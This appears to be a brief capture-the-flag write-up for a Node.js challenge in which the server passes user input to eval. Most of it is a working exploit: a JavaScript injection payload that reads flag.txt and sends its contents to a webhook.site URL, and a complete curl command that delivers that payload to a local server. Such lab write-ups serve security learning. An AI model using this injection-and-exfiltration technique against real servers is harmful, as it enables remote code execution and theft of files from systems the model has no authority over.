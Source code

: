 Server calls eval on the data sent by user.
This can be exploited with for example following payload:

`fs=require('fs');a=fs.readFileSync('flag.txt');http=require('http');http.get("http://webhook.site/<your-id>/"+a.toString());`

Then you would get url encoded flag on your webhook.


`curl --location 'http://localhost:8000/' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'question=fs=require('\''fs'\'');a=fs.readFileSync('\''flag.txt'\'');http=require('\''http'\'');http.get("http://webhook.site/71a7dc1c-28cd-4b5b-8c3a-db6d8d41f880/"+a.toString());'`